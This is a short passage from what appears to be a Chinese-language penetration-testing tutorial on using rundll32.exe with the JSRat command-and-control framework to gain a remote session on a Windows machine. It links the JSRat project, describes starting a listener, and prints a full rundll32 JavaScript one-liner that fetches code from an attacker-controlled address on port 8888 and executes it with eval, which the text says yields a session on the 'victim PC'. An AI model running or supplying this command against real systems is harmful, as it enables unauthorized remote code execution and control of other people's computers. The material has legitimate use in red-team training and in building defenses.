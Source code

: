 **12、rundll32**

其实还是依赖于WScript.shell这个组件，在这里我们使用JSRat来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序。

项目地址：https://github.com/Hood3dRob1n/JSRat-Py.git

步骤一：开始运行JSRat，监听本地8888端口。

![](./image/20200413-12-1.png)

步骤二：通过url访问，可以查看恶意代码。

![](.\image\20200413-12-2.png)

复制代码如下：

~~~
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
~~~

步骤三：在受害者PC运行该代码，将成功返回一个会话，如下图所示：

![](./image/20200413-12-3.png)
